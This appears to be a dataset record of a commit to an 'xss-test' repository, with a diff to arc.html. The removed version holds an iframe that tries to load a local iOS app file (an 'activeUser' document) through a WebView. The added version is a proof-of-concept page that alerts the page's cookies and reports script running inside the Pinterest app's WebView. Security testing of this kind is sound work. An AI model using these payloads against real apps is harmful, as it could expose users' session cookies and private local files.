

Before and after one commit to Taha2hussein/xss-test, a plain HTML site: page arc.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
بيبل

```diff
--- a/arc.html
+++ b/arc.html
@@ -1,8 +1,16 @@
-
 <!DOCTYPE html>
 <html>
+<head>
+  <title>PoC Alert Cookies</title>
+</head>
 <body>
-  <iframe src="file:///private/var/mobile/Containers/Data/Application/457443B7-8445-4DA6-92BB-E8558ADA52F8/Documents/activeUser" width="100%" height="600px"></iframe>
-  </iframe>
+  <h1>اختبار عرض الكوكيز في alert</h1>
+
+  <script>
+     alert("تم تنفيذ كود JavaScript داخل WebView في تطبيق Pinterest!");
+    alert("Cookies: " + document.cookie);
+        document.body.innerHTML += "<p>JS يعمل بشكل ناجح داخل WebView</p>";
+
+  </script>
 </body>
 </html>
```
